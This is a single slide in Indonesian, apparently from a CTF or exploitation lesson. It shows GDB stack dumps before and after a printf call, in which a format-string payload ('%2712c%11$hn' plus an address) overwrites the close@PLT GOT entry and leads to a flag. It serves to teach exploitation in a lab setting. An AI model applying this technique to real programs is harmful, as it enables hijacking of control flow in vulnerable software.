

# Eksperimen
Di GDB, breakpoint sebelum printf (0x400A81) dan setelahnya (0x400A8B)
Stack sebelum printf:

Stack setelah printf, fungsi telah berubah alamatnya:
| 0000| 0x7fffffffbbd0 --> 0x8ae00000000 0008| 0x7fffffffbbd8 --> 0x7fffffffdc20 ("127.0.0.1") 0016| 0x7fffffffbbe0 ("%2712c%11$hnABCDEFGHIJKL8\022`") 0024| 0x7fffffffbbe8 ("1$hnABCDEFGHIJKL8\022`") 0032| 0x7fffffffbbf0 ("EFGHIJKL8\022`") 0040| 0x7fffffffbbf8 --> 0x601238 --> 0x400786 (<close@plt+6>: push 0x6) 0048| 0x7fffffffbc00 --> 0x0 0056| 0x7fffffffbc08 --> 0x0 |
| --- |
close@PLT
| 0000| 0x7fffffffbbd0 --> 0x8ae00000000 0008| 0x7fffffffbbd8 --> 0x7fffffffdc20 ("127.0.0.1") 0016| 0x7fffffffbbe0 ("%2712c%11$hnABCDEFGHIJKL8\022`") 0024| 0x7fffffffbbe8 ("1$hnABCDEFGHIJKL8\022`") 0032| 0x7fffffffbbf0 ("EFGHIJKL8\022`") 0040| 0x7fffffffbbf8 --> 0x601238 --> 0x400a98 (push rbp) 0048| 0x7fffffffbc00 --> 0x0 0056| 0x7fffffffbc08 --> 0x0 |
| --- |
FLAG!